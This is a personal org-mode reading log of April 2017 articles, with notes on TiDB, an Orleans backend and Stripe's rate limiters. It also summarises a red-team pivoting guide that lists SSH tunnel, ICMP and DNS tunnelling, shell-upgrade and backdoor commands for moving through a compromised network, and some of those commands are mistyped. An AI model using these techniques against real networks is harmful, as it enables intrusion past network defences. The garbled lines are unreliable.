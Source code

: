 #+TITLE: April 2017 Articles

* TODO [[https://pingcap.github.io/blog/2016/10/17/how-we-build-tidb/][How We Build TiDB]]                                         :db:distsys:
* TODO [[https://medium.com/@MaartenSikkema/using-dotnet-core-orleans-redux-and-websockets-to-build-a-scalable-realtime-back-end-cd0b65ec6b4d][Building a realtime server backend using the Orleans Actor system, Dotnet Core and Server-side Redux]] :realtime:orleans:

* DONE [[https://artkond.com/2017/03/23/pivoting-guide/][A Red Teamer's guide to pivoting]]                 :security:pentesting:
  CLOSED: [2017-04-03 Mon 23:22]
  - You've found an RCE in a web-app accessible from the internet, and have a shell.
    - SSH port forwarding: 
      ssh username@host -D 1080 # socks server on the local Intranet.
      ssh username@host -L 445:192.168.1.1:445 # 445 opened on attacker's side to 445 in Intranet
    - SSH can tunnel layer 3 traffic via established ssh channels. (need root on both machines)
      (PermitRootLogin yes, PermitTunnel yes)
      - ssh username@server -w any:any # create pair of tun devices
      - tunnels created, but not activated
        - ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 # client side
        - id addrs add 1.1.1.2/32 peer 1.1.1.2 dev tun0 # server side
        - echo 1 > /proc/sys/net/ipv4/ip_forward # enable NAT forwarding
        - iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
        - route add -net 10.0.0.0/16 gw 1.1.1.1 # default gateway for that network
    - 3proxy (https://github.com/z3APA3A/3proxy/releases)
      - can be used as socks proxy or port forwarder
      - general swiss army knife
    - rpivot: https://github.com/artkond/rpivot
      - traverses NAT connections. reverse socks proxy. works like ssh -D but in opposite direction.
  - On the internal network, limited connectivity
    - ICMP tunneling via [[http://code.gerade.org/hans/][hans]] (need root locally since raw sockets)
      - hans -v -f -s 1.1.1.1 -p P@ssw0rd # server side
      - hans -f -c <server ip> -p P@ssw0rd # client side
    - DNS tunneling
      - WAN traffic might be blocked, but can resolve external names.
      - If you have root, [[http://code.kryo.se/iodine/][iodine]] works almost like hans.
        - iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com # server
        - iodone -f -P P@ssw0rd tunneldomain.com -r # client
        - Success yields direct visibility at 1.1.1.2.
        - Then, using compression:
          ssh user@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
      - [[https://github.com/iagox86/dnscat2][Dnscat2]] doesn't require root.
    - Corporate HTTP proxy as way out.
      - Rpivot, [[http://cntlm.sourceforge.net/][Cntlm]], OpenVpn over HTTP proxy.
  - [[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet][Reverse Shell Cheat Sheet]]
  - Upgrade from regular semi-interactive shell:
    =python -c 'import pty; pty.spawn("/bin/bash")'=
  - socat
  - [[https://github.com/creaktive/tsh][Tsh]]: small ssh-like backdoor with full-pty terminal.
* DONE [[https://stripe.com/blog/rate-limiters][Scaling your API with rate limiters]]                          :distsys:
  CLOSED: [2017-04-03 Mon 23:01]
  - Rate limiting can make your API more reliable when:
    - One of your users is responsible for a spike in traffic, but you need to stay up for others
    - Misbehaving scripts accidentially sending you lots of request
    - User sending lower priority stuff.
      (This implies that you have some sort of prioritization of requests)
    - Something wrong internally.
  - Stripe implements a few strategies to keep the API available for everyone
  - Not an option if spacing out requests isn't an option.
  - During incidents, shed load by dropping low priority requests.
  - 4 types used in production
    - Request rate limiter (e.g. N requests per second) -- Stripe has the ability to burst a bit.
    - Concurrent reuqests limiter (e.g. 20 requests at the same time). Helps with resource intensive requests
    - Fleet usage load shedder
      - Divide up traffic into critical (e.g. charges) and non-critical (list charges).
      - Reserve fraction of requests for charges
    - Worker utilization load shedding
      - Divide into Critical, POSTs, GETs, Test mode traffic
        - track workers: busy boxes will shed less critical requests
  - How to deploy?
    - Hook into middleware safely.
      e.g. what happens if redis goes down, or bugs?
    - Show good exceptions to your users 429 (Too Many Requests), 503 (Service Unavailable)
    - Control rods
    - Dark launch to simulate what would actually happen.

*** Further thoughts
    - Dark launches are helpful, but can't tell you exactly, since the potentially blocked traffic is still happening. This is similar to our auto scaling problem.
      
    

